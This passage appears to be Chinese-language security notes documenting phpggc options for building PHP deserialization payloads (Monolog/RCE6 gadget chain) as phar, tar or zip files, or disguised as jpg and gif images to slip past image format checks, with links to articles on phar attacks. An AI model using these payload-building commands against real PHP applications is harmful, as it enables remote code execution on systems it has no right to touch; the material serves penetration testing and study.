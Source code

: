 - -p 参数可以指定生成 tar、zip、phar 的文件格式，配合 -o 参数可以输出到文件。
    ```bash
    php phpggc -p phar -o test.phar Monolog/RCE6 system id
    php phpggc -p tar -o test.tar Monolog/RCE6 system id
    php phpggc -p zip -o test.zip Monolog/RCE6 system id
    ```

- -pj 参数生成 jpg, 需要给出一个 jpg 图片
    ```bash
    php phpggc -pj example.jpg -o evil.jpg Monolog/RCE6 system whoami
    ```
- -pp 参数用于将指定的文件添加到 phar 文件的开头，因此可以用于绕过图片格式校验。
    ```bash
    php phpggc -pp 1.gif -o evil.gif Monolog/RCE6 system whoami
    ```
- -pf 参数可以在 phar 文件中添加一个文件：
    ```bash
    php phpggc -pf 1.txt -o evil.gif Monolog/RCE6 system whoami
    ```


# 参考
- [利用 phar 拓展 php 反序列化漏洞攻击面](https://paper.seebug.org/680/#0x01)
- [php反序列化拓展攻击详解--phar](https://xz.aliyun.com/t/6699#toc-3)
- [从偶遇Flarum开始的RCE之旅](https://tttang.com/archive/1714/)